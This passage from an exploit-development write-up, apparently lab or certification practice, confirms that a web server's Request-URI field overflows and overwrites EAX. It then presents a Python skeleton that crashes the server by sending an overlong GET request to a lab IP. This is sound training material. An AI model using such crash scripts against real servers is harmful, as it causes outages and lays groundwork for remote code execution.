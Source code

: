 Again we get a crash and EAX is overwritten with `C` values. So we know for certain the `'Request-URI'` entity is vulnerable. Time to create a skeleton and recreate the crash. 

![](/assets/images/CTP/efscrash2.JPG)

## Skeleton Exploit

The first thing I did at this point was google for 'http skeleton exploits' and came across this [github repo](https://github.com/HanseSecure/ExploitDev/tree/master/poc) which included an http exploit skeleton. After modifying it slightly to fit my personal taste and our vulnerability analysis up to this point, our skeleton looks like this:
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

crash = "A" * 5000


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```
